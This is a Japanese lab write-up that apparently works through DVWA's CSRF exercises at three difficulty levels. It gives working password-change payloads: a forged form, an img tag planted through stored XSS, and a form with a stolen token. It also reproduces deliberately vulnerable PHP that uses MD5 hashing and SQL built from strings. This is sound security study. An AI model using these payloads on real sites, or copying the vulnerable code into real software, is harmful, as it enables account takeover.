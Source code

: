# CSRF

<!-- START doctoc generated TOC please keep comment here to allow auto update -->
<!-- DON'T EDIT THIS SECTION, INSTEAD RE-RUN doctoc TO UPDATE -->
<details>
<summary>Table of Contents</summary>

- [Low level](#low-level)
  - [実験結果](#%E5%AE%9F%E9%A8%93%E7%B5%90%E6%9E%9C)
  - [原因](#%E5%8E%9F%E5%9B%A0)
- [Medium Level](#medium-level)
  - [実験結果](#%E5%AE%9F%E9%A8%93%E7%B5%90%E6%9E%9C-1)
  - [原因](#%E5%8E%9F%E5%9B%A0-1)
- [High level](#high-level)
  - [実験結果](#%E5%AE%9F%E9%A8%93%E7%B5%90%E6%9E%9C-2)
  - [原因](#%E5%8E%9F%E5%9B%A0-2)

</details>
<!-- END doctoc generated TOC please keep comment here to allow auto update -->

## Low level

### 実験結果

adminユーザでログインしている状態にしておく。

以下のHTML（[csrf.html](./csrf.html）を作成して、Formを送信する。

```html
<form action="http://localhost/vulnerabilities/csrf/" method="GET">
    New password:<br />
    <input type="password" AUTOCOMPLETE="on" name="password_new" value="attack"><br />
    Confirm new password:<br />
    <input type="password" AUTOCOMPLETE="on" name="password_conf"  value="attack"><br />
    <br />
    <input type="submit" value="Change" name="Change">
</form>
```

これで遷移した画面に 「Password Changed」と表示されるはずであり、ログアウトすると、以前のパスワードではログインできなくなっているはずである。

### 原因

該当のソースコードは以下になる。

```php
<?php

if( isset( $_GET[ 'Change' ] ) ) {
    // Get input
    $pass_new  = $_GET[ 'password_new' ];
    $pass_conf = $_GET[ 'password_conf' ];

    // Do the passwords match?
    if( $pass_new == $pass_conf ) {
        // They do!
        $pass_new = ((isset($GLOBALS["___mysqli_ston"]) && is_object($GLOBALS["___mysqli_ston"])) ? mysqli_real_escape_string($GLOBALS["___mysqli_ston"],  $pass_new ) : ((trigger_error("[MySQLConverterToo] Fix the mysql_escape_string() call! This code does not work.", E_USER_ERROR)) ? "" : ""));
        $pass_new = md5( $pass_new );

        // Update the database
        $insert = "UPDATE `users` SET password = '$pass_new' WHERE user = '" . dvwaCurrentUser() . "';";
        $result = mysqli_query($GLOBALS["___mysqli_ston"],  $insert ) or die( '<pre>' . ((is_object($GLOBALS["___mysqli_ston"])) ? mysqli_error($GLOBALS["___mysqli_ston"]) : (($___mysqli_res = mysqli_connect_error()) ? $___mysqli_res : false)) . '</pre>' );

        // Feedback for the user
        echo "<pre>Password Changed.</pre>";
    }
    else {
        // Issue with passwords matching
        echo "<pre>Passwords did not match.</pre>";
    }

    ((is_null($___mysqli_res = mysqli_close($GLOBALS["___mysqli_ston"]))) ? false : $___mysqli_res);
}

?>
```

原因としては上記を見ればわかるように GET リクエストのクエリ文字列に対して、送信元に対する検証処理を何も対処していないため、異なるOriginからのフォーム送信でもパスワードを変更できてしまうことである。

## Medium Level

### 実験結果

DVWAの XSS（Stored）にアクセスして、Name を入力する欄の入力文字数制限を1000程度に改変して、以下を入力する。

```html
<img src="/vulnerabilities/csrf/?password_new=attack&password_conf=attack&Change=Change#">
```

Message には何か適当にコメントを追加しておく。

これで 「Sign Guestbook」を実行して、ログアウトすると以前のパスワードではログインできない状態になってしまっている。

### 原因

該当するソースコードは以下になる。

```php

<?php

if( isset( $_GET[ 'Change' ] ) ) {
    // Checks to see where the request came from
    if( stripos( $_SERVER[ 'HTTP_REFERER' ] ,$_SERVER[ 'SERVER_NAME' ]) !== false ) {
        // Get input
        $pass_new  = $_GET[ 'password_new' ];
        $pass_conf = $_GET[ 'password_conf' ];

        // Do the passwords match?
        if( $pass_new == $pass_conf ) {
            // They do!
            $pass_new = ((isset($GLOBALS["___mysqli_ston"]) && is_object($GLOBALS["___mysqli_ston"])) ? mysqli_real_escape_string($GLOBALS["___mysqli_ston"],  $pass_new ) : ((trigger_error("[MySQLConverterToo] Fix the mysql_escape_string() call! This code does not work.", E_USER_ERROR)) ? "" : ""));
            $pass_new = md5( $pass_new );

            // Update the database
            $insert = "UPDATE `users` SET password = '$pass_new' WHERE user = '" . dvwaCurrentUser() . "';";
            $result = mysqli_query($GLOBALS["___mysqli_ston"],  $insert ) or die( '<pre>' . ((is_object($GLOBALS["___mysqli_ston"])) ? mysqli_error($GLOBALS["___mysqli_ston"]) : (($___mysqli_res = mysqli_connect_error()) ? $___mysqli_res : false)) . '</pre>' );

            // Feedback for the user
            echo "<pre>Password Changed.</pre>";
        }
        else {
            // Issue with passwords matching
            echo "<pre>Passwords did not match.</pre>";
        }
    }
    else {
        // Didn't come from a trusted source
        echo "<pre>That request didn't look correct.</pre>";
    }

    ((is_null($___mysqli_res = mysqli_close($GLOBALS["___mysqli_ston"]))) ? false : $___mysqli_res);
}

?>
```

上記のコードでは、`stripos( $_SERVER[ 'HTTP_REFERER' ] ,$_SERVER[ 'SERVER_NAME' ]) !== false` によってサーバに送信されたHTTPリクエストのRefererに格納されている値から、サーバ名称の名称が含まれているのかを大文字小文字を区別せずに判定している。

つまり XSS によって悪意のあるURLやスクリプトの送信元自体をサーバ側にしてしまえば、後は 攻撃者が設定したURLを投稿し、リクエストが発行されることで CSRF を実行することが可能となる。

## High level

### 実験結果

あくまでもユーザに発行されたトークンを盗み出せる状況であると想定する。

adminユーザでログインしている状態にし、CSRFを実験するページに遷移する。

以下のHTML（[csrf.html](./csrf-token.html）を作成して、Formを送信する。

```html
<form action="http://localhost/vulnerabilities/csrf/" method="GET">
    New password:<br />
    <input type="password" AUTOCOMPLETE="on" name="password_new" value="attack"><br />
    Confirm new password:<br />
    <input type="password" AUTOCOMPLETE="on" name="password_conf"  value="attack"><br />
    <br />
    <input type="submit" value="Change" name="Change">
    <input type="hidden" name="user_token" value="7e4b667165ee002a2fa9955630e93032">
</form>
```

これで遷移した画面に 「Password Changed」と表示されるはずであり、ログアウトすると、以前のパスワードではログインできなくなっているはずである。


### 原因

該当するソースコードは以下になる。

```php
<?php

if( isset( $_GET[ 'Change' ] ) ) {
    // Check Anti-CSRF token
    checkToken( $_REQUEST[ 'user_token' ], $_SESSION[ 'session_token' ], 'index.php' );

    // Get input
    $pass_new  = $_GET[ 'password_new' ];
    $pass_conf = $_GET[ 'password_conf' ];

    // Do the passwords match?
    if( $pass_new == $pass_conf ) {
        // They do!
        $pass_new = ((isset($GLOBALS["___mysqli_ston"]) && is_object($GLOBALS["___mysqli_ston"])) ? mysqli_real_escape_string($GLOBALS["___mysqli_ston"],  $pass_new ) : ((trigger_error("[MySQLConverterToo] Fix the mysql_escape_string() call! This code does not work.", E_USER_ERROR)) ? "" : ""));
        $pass_new = md5( $pass_new );

        // Update the database
        $insert = "UPDATE `users` SET password = '$pass_new' WHERE user = '" . dvwaCurrentUser() . "';";
        $result = mysqli_query($GLOBALS["___mysqli_ston"],  $insert ) or die( '<pre>' . ((is_object($GLOBALS["___mysqli_ston"])) ? mysqli_error($GLOBALS["___mysqli_ston"]) : (($___mysqli_res = mysqli_connect_error()) ? $___mysqli_res : false)) . '</pre>' );

        // Feedback for the user
        echo "<pre>Password Changed.</pre>";
    }
    else {
        // Issue with passwords matching
        echo "<pre>Passwords did not match.</pre>";
    }

    ((is_null($___mysqli_res = mysqli_close($GLOBALS["___mysqli_ston"]))) ? false : $___mysqli_res);
}

// Generate Anti-CSRF token
generateSessionToken();

?>
```



